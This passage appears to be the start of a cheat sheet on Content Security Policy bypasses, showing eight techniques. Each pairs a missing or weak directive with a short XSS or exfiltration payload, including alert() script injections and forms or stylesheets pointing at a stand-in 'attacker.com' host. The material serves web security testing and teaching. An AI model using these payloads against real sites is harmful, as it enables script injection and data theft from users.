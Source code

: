 ```yaml
---
title: "100 Content Security Policy (CSP) Bypass Techniques"
tags:
  - CSP bypass
---
```


## SECTION 1: INLINE & DEPRECATED DIRECTIVES (1-10)

### 1. 'unsafe-inline' in script-src
**Bypass:** `<script>alert('XSS')</script>`
**Explanation:** Allows all inline scripts without restriction. Completely defeats the purpose of CSP for script protection.

### 2. 'unsafe-inline' in style-src
**Bypass:** `<style>body { background: url('javascript:alert(1)'); }</style>`
**Explanation:** Permits inline CSS which can lead to data exfiltration and XSS through CSS expressions or data URLs.

### 3. 'unsafe-eval' in script-src
**Bypass:** `eval('alert(1)')` or `Function('return alert(1)')()`
**Explanation:** Allows dynamic code execution through eval, setTimeout with string arguments, and similar dangerous functions.

### 4. Missing script-src directive
**Bypass:** Falls back to default-src; if missing, allows any script
**Explanation:** CSP inheritance through default-src can be bypassed if specifically restrictive policies are missing.

### 5. Missing style-src directive
**Bypass:** `<link rel="stylesheet" href="attacker.com/evil.css">`
**Explanation:** External stylesheets can be loaded freely if style-src isn't explicitly defined, enabling CSS exfiltration attacks.

### 6. object-src not restricted
**Bypass:** `<object data="javascript:alert(1)"></object>` or `<embed src="evil.swf">`
**Explanation:** Flash and other plugins can execute arbitrary code if not restricted by object-src.

### 7. Missing frame-src/child-src
**Bypass:** `<iframe src="javascript:alert(1)"></iframe>`
**Explanation:** Frames can execute inline JavaScript or load untrusted content without restriction.

### 8. Missing form-action
**Bypass:** `<form action="attacker.com"><input type="hidden" name="data" value="steal"></form>` with auto-submit
**Explanation:** Forms can POST to attacker-controlled domains to exfiltrate data.
